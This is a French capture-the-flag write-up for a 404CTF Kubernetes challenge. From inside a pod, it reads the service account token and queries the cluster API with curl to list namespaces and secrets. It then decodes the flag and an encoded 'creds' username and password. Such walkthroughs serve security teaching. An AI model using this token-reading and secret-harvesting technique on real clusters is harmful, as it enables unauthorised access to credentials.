

# Les nuages menaçants 1/3



On se connecte sur le serveur.

`kubectl` n'étant pas installé, en alternative, on va essayer d'exploiter l'API REST de K8S pour obtenir des informations sur les éléments déployés sur le cluster.

On affiche les variables d'environnement positionnées, afin de récupérer l'adresse du service K8S :

```bash
root@start:~# printenv
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
HOSTNAME=start
PWD=/root
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
LS_COLORS=...
TERM=xterm
SHLVL=1
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
...
```

L'API est donc accessible via l'URL : https://10.43.0.1/api/v1

Une tentative d'accès au service montre qu'une authentification est nécessaire. Une possibilité est d'utiliser les credentials du serviceaccount du pod. On espère que ceux-ci ont été déployés dans le pod.

```bash
root@start:~# ls /run/secrets/kubernetes.io/serviceaccount
ca.crt  namespace  token
```

Pour s'authentifier, on va donc utiliser le token du serviceaccount :

```bash
root@start:~# TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
root@start:~# AUTH="Authorization: Bearer ${TOKEN}"
```

On commence par lister les namespaces déployés sur le cluster :

```bash
root@start:~# URL=https://10.43.0.1/api/v1/namespaces
root@start:~# curl -w'\n' -k -H "$AUTH" $URL
```

On trouve 4 namespaces "standards", plus un 5ème au nom évocateur : `404ctf`

```json
{
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "1881"
  },
  "items": [
    {
      "metadata": {
        "name": "default",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "kube-system",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "kube-public",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "kube-node-lease",
        ...
      },
      ...
    },
    {
      "metadata": {
        "name": "404ctf",
        ...
      },
      ...
    }
  ]
}

```

Les droits accordés au serviceaccount sont très limités, mais ils permettent néanmoins de récupérer les informations relatives aux secrets (surement suffisant pour résoudre le challenge ?) :

```bash
root@start:~# URL=https://10.43.0.1/api/v1/namespaces/404ctf/secrets
root@start:~# curl -w'\n' -k -H "$AUTH" $URL
```

2 secrets sont déployés, dont un qui s'appelle `flag` :

```json
{
  "kind": "SecretList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "1918"
  },
  "items": [
    {
      "metadata": {
        "name": "flag",
        "namespace": "404ctf",
        "uid": "b6fd04c8-5a93-4252-8f23-9c5a3c0d85a4",
        "resourceVersion": "477",
        "creationTimestamp": "2023-05-24T22:13:48Z",
        "annotations": {
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"data\":{\"flag\":\"NDA0Q1RGe0F0dGVudGlvbl9hdXhfc2VjcmV0cyF9\"},\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"flag\",\"namespace\":\"404ctf\"},\"type\":\"Opaque\"}\n"
        },
        "managedFields": [
          {
            "manager": "kubectl-client-side-apply",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2023-05-24T22:13:48Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:data": {
                ".": {},
                "f:flag": {}
              },
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:kubectl.kubernetes.io/last-applied-configuration": {}
                }
              },
              "f:type": {}
            }
          }
        ]
      },
      "data": {
        "flag": "NDA0Q1RGe0F0dGVudGlvbl9hdXhfc2VjcmV0cyF9"
      },
      "type": "Opaque"
    },
    {
      "metadata": {
        "name": "creds",
        "namespace": "404ctf",
        "uid": "c77fd859-ce65-46ef-8ddd-a6a547a8f0b0",
        "resourceVersion": "478",
        "creationTimestamp": "2023-05-24T22:13:48Z",
        "annotations": {
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"data\":{\"password\":\"bGVzX251YWdlcw==\",\"user\":\"cHJvdXN0\"},\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"creds\",\"namespace\":\"404ctf\"},\"type\":\"Opaque\"}\n"
        },
        "managedFields": [
          {
            "manager": "kubectl-client-side-apply",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2023-05-24T22:13:48Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:data": {
                ".": {},
                "f:password": {},
                "f:user": {}
              },
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:kubectl.kubernetes.io/last-applied-configuration": {}
                }
              },
              "f:type": {}
            }
          }
        ]
      },
      "data": {
        "password": "bGVzX251YWdlcw==",
        "user": "cHJvdXN0"
      },
      "type": "Opaque"
    }
  ]
}
```

Les secrets étant de type `Opaque`, les données y sont simplement encodées en base64. Le décodage des données rattachées au secret `flag` permet d'obtenir le flag :

```bash
root@start:~# base64 -d <<< NDA0Q1RGe0F0dGVudGlvbl9hdXhfc2VjcmV0cyF9 && echo
404CTF{Attention_aux_secrets!}
```
